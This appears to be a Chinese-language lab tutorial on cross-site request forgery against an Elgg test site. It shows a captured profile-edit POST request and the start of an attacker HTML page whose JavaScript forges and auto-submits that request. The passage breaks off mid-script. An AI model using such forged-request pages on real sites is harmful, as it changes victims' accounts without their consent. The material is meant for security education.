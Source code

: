 实验内容：Alice用户有一个自己的描述，她希望Boby也编辑自己的描述，但是Boby用户拒绝了，这时Alice想通过发送一个 url 让Boby用户访问后，自动让Boby自动添加自己的描述。

首先我们需要知道编辑自己的描述需要的请求,同样使用LiveHttpHeader抓包：

使用 alice seedalice 登录，点击左上角的头像；进入用户界面，点击 Edit Profile 可以编辑自己的描述；

&gt;    打开Firefox菜单栏的Tools中的LiveHttpHeader
&gt;	勾选Capture
&gt;	编辑用户资料，点击sava；

![图片描述信息](https://dn-anything-about-doc.qbox.me/userid9094labid936time1430186466149?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

![图片描述信息](https://dn-anything-about-doc.qbox.me/userid9094labid936time1430186502460?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

这里是抓取到的数据包：

```
    POST /action/profile/edit HTTP/1.1
    Host: www.csrflabelgg.com
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:23.0) Gecko/20100101 Firefox/23.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://www.csrflabelgg.com/profile/alice/edit
    Cookie: Elgg=ks91qtcsis87selokqauqt96p1
    Connection: keep-alive
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 569
	__elgg_token=17fb7abf0ec7666aae76d5b03372203f&amp;__elgg_ts=1429842430&amp;name=Alice&amp;description=%3Cp%3Etest%3C%2Fp%3E&amp;accesslevel%5Bdescription%5D=2&amp;briefdescription=test&amp;accesslevel%5Bbriefdescription%5D=2&amp;location=test&amp;accesslevel%5Blocation%5D=2&amp;interests=test&amp;accesslevel%5Binterests%5D=2&amp;skills=test&amp;accesslevel%5Bskills%5D=2&amp;contactemail=test%40email.com&amp;accesslevel%5Bcontactemail%5D=2&amp;phone=123456&amp;accesslevel%5Bphone%5D=2&amp;mobile=123456&amp;accesslevel%5Bmobile%5D=2&amp;website=http%3A%2F%2Ftest.com&amp;accesslevel%5Bwebsite%5D=2&amp;twitter=test&amp;accesslevel%5Btwitter%5D=2&amp;guid=39
```
通过分析我们可以得知编辑用户需要的请求，其中最重要的就是guid，用户的id标识符；于是Alice就写了如下代码并发送给Boby用户进行攻击.

```
	sudo vim /var/www/CSRF/Attacker/csrf.html
```

这里是代码：

```
    &lt;html&gt;&lt;body&gt;&lt;h1&gt;
    This page forges an HTTP POST request.
    &lt;/h1&gt;
    &lt;script type=&#34;text/javascript&#34;&gt;
    function post(url,fields)
    {
    	//create a &lt;form&gt; element.
    	var p = document.createElement(&#34;form&#34;);
    	//construct the form
    	p.action = url;
    	p.innerHTML = fields;
    	p.target = &#34;_self&#34;;
    	p.method = &#34;post&#34;;
    	
		//append the form to the current page.
    	document.body.appendChild(p);
    	//submit the form
    	p.submit();
    }
    function csrf_hack()
    {
    	var fields;
    	// The following are form entries that need to be filled out
```